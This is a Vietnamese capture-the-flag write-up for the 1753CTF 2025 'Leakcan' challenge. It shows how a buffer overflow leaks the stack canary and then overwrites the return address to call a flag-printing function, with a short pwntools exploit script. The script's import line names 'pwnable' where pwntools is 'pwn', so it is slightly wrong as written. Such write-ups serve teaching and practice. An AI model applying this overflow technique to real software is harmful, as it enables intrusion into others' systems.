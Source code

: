 # [1753CTF-2025] Leakcan
<p>Có 3 dòng cần chú ý là 23, 27 và 30. Dòng 23 và 30, đọc tối đa 120 byte đầu vào từ người dùng vào v11 có kích thước 32 byte -> Buffer overflow. Dòng 27, in dữ liệu của v11 ra màn hình.</p>

![alt text](/thanhlai/post/pwnable/image/post11/image.png)

<p>Quan sát bảng Functions, ta có hàm your_goal để in flag ra màn hình -> Cần phải kiểm soát RIP trỏ tới hàm này để đọc flag.</p>

![alt text](/thanhlai/post/pwnable/image/post11/image-1.png)

<p>Đặt breakpoint ngay hàm read đầu tiên, địa chỉ chứa dữ liệu là từ 0x00007fffffffe1a0 và cách giá trị canary 0x58 (88) byte.</p>

![alt text](/thanhlai/post/pwnable/image/post11/image-2.png)

<p>Đi đến hàm write thứ 3, nó sẽ bắt đầu in dữ liệu từ 0x00007fffffffe1a0 -> Nếu ta ghi đè null byte đầu tiên của canary thì có thể leak ra giá trị canary.</p>

![alt text](/thanhlai/post/pwnable/image/post11/image-3.png)

<p>Ta gửi lại 88 kí tự và enter -> Lúc này, null byte của canary đã bị đè bởi byte \n (kí tự xuống dòng). Byte ngay sau canary là 0x01 -> Khi leak canary, ta sẽ không lấy byte cuối cùng (0x01) và chỉ lấy từ vị trí cách byte cuối cùng 7 byte.</p>

![alt text](/thanhlai/post/pwnable/image/post11/image-5.png)

<p>Script exploit:</p>

```
from pwnable import *

p = process('./leakcan_chall')
elf = ELF('./leakcan_chall')

payload = b'a' * 88
p.sendlineafter(b'What\'s your name?\n', payload)

data = p.recv()
canary = b'\x00' + data[-8:-1]  
payload = b'a' * 88 + (canary) + b'a' * 8
payload += p64(elf.sym['your_goal'])

p.sendline(payload)
p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post11/image-4.png)